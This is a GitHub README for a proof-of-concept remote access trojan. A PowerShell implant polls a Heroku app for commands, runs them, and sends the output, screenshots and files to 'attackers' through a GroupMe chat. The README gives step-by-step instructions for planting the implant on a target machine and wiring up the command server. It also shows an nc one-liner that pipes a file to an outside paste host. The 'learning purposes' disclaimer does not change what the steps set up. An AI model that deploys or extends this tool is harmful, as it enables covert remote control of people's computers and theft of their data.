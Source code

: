 # Rat-GroupME

_For learning purposes only. I wanted to see how the GroupME API or similar chat-based framework would work as a RAT controller. This is not meant
to be used maliciously._

The implant is the rat.ps1 and is meant to be triggered every X minutes, POSTing to the 
heroku python app asking for what commands to be ran. After running these 
commands, output is sent to the "attackers" in their set groupme chat. 

This is strictly of proof of concept and learning project, so no persistence strategies or task scheduling will be mentioned here. You're on your own.

app.py, runtime.txt, requirements.txt, Procfile, and commands.txt are all necessary on the 
heroku app-side. 

The rat.ps1 will need to be ran from the client. The rat.ps1 will run commands via a powershell session. Anything you can run in powershell, you can run remotely with this RAT. I've also added a screenshot and file upload function.
Multiple commands are suppored between polling interval. Send the commands you wish to run when the client phones home next, and output will be sent to you when the client reaches out.

## Steps to Reproduce
1. Setup a Python HerokuApp using the files I've provided. Heroku Git is a magical thing. 
2. Put the rat.ps1 on the machine you're testing as your client/target machine. As of right now,
I have tested this on Win10. I will be rewriting the script for Powershell 2.0.
3. Make the necessary changes based on your personal API information.

### In rat.ps1: 
* Set bot_id on line 12
* Set GM_TOKEN on line 20
* Provide your HerokuApp URL on line 36
 
### In app.py
* Set bot_id in send_message function
* The conditions that mention the bot's name may need to be changed if your bot is named something other than 'victim'

**For file Uploading**
You'll need to host your file somewhere like pastebin, termbin, or dropfile. 
Ex. - cat file.txt | nc termbin.com 9999
- Get the URL and use it to run your command in chat as such: upload URL OutFilePath

_Please see screenshots folder if confused_

Hope you enjoy, and don't hesitate to email me.
